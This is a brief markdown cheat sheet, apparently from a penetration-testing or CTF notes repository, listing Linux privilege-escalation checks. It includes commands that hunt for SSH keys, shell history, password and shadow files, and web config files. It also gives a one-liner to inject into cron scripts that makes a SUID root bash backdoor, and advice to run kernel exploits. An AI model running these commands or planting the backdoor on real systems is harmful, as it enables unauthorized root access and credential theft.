# 3_privilege_escalation

- Check for sensitive files in home directories.

```
find /home/ -name .bash_history 2> /dev/null
find /home/ -name .ssh 2> /dev/null
```

- Check for weak password files

```shell
ls -l /etc/passwd
ls -l /etc/shadow
```

- Check for sensitive files in web server directory.

```
find /var/www/ -name "config.php"
find /var/www/ -name "initialize.php"
find /var/www/ -name "*.db"
which mysql
```

- Check for sensitive files in other directories.

```
/home
~
/
```

- Check sudo commands.
You don't always need the user creds to run this escalation!

```shell
sudo -l
```

- Check group memberships.

```shell
id
```

- Check for files owned by a specific user

```shell
find / -user username 2> /dev/null
```

- Check for interesting cronjobs. 

```
cat /etc/crontab
```

A nice one liner to overwrite in scripts is

```shell
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

- Check files that have SUID bits set.

```shell
find / -perm -u=s -type f -ls 2>/dev/null
```

- Check for Linux capabilities

```shell
getcap -r / 2> /dev/null
```

- Check socket statistics for processes exposed on the machine.

```
ss -s -l -n -t -u
```

- Check the environment variables of the shell. 
- Check if there are scripts or commands to are vulnerable to `PATH` manipulation.
- Check for kernel exploits.
  - Determine kernel version using `uname -a`.
  - Search exploit databases for match.
  - Run exploit.
